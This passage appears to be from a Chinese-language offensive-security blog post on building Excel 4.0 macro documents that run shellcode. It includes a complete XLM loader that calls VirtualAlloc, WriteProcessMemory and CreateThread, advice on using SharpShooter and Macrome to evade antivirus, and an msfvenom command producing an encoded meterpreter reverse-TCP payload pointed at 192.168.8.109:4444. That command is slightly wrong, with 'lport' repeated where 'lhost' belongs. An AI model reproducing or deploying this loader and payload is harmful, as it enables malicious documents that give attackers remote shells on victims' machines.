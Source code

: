 如果你想深入了解可以参考excel 4.0函数[说明文档](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf)

接下来我们构建一个可以执行我们自己shellcode的文档，这里有几个要注意的点

一个是shellcode中不能存在空字节`‘\x00’`

另外一个就是WPM每次调用最多只能写入**255 个字节**。

我们来看一下网上相关的利用代码

```
=R1C2()  //调用指定位置代码
=CALL("Kernel32","VirtualAlloc","JJJJJ",0,1000000,4096,64)  //调用Kernel
=SELECT(R1C2:R1000:C2,R1C2)  //选择shellcode列
=SET.VALUE(R1C3, 0)  //设置一个单元格
=WHILE(LEN(ACTIVE.CELL())>0)  
=CALL("Kernel32","WriteProcessMemory","JJJCJJ",-1, R2C1 + R1C3 * 20,ACTIVE.CELL(), LEN(ACTIVE.CELL()), 0)
=SET.VALUE(R1C3, R1C3 + 1)
=SELECT(, "R[1]C")
=NEXT()   //循环shellcode，调用RtilCopyMemory，循环往内存空间写入，当当前shell代码单元格的长度一旦将单元格写入内存，计数器+1并进入下一循环
=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C1, 0, 0, 0)  //调用CreateThread创建线程
=HALT() //必须包含HALT或RETURN函数
```

这个时候可以使用工具生成我们自己的shellcode，并转化即可。过程中会遇到EXCEL崩溃的情况，不过代码执行并不受影响。

通过msf命令，我们可以快速生成不包含空字节的shellcode，通过[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)工具可以帮助把shellcode转化成可用的格式。当然网上也有很多脚本可以利用，可以自行搜索下。

使用工具先生成

![image-20211126105611486](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211126105611486.png)

生成后发现打开直接崩溃，不过没有关系。我们可以手动对代码进行调整

对于excel宏调用，我们可以观察其代码，发现其中的excel宏片段是写死的，猜测崩溃原因就在此

![image-20211126110511411](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211126110511411.png)

无论怎样生成，其中代码都是不变的，所以就可能造成崩溃的问题。有闲工夫可以附加调试看看什么情况，不过这不在本文章的范围。

看了一些项目发现，其调用的地址都是动态生成的

https://github.com/outflanknl/Scripts/blob/master/ShellcodeToJScript.js

![image-20211126113213812](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211126113213812.png)

这种不带混淆的，直接VirtualAlloc -> WriteProcessMemory -> CreateThread现在肯定是被杀的，所以还是需要自动化的生成工具。

## 自动化利用

github上有很多的开源的工具，这里我使用[Macrome](https://github.com/michaelweber/Macrome)

使用msf生成64位和32位不包含空字节的shellcode

`msfvenom -p windows/x64/meterpreter/reverse_tcp lport=192.168.8.109 lport=4444 -b '\x00' -e x64/xor --arch x64 --platform windows -f raw > payload64.bin`
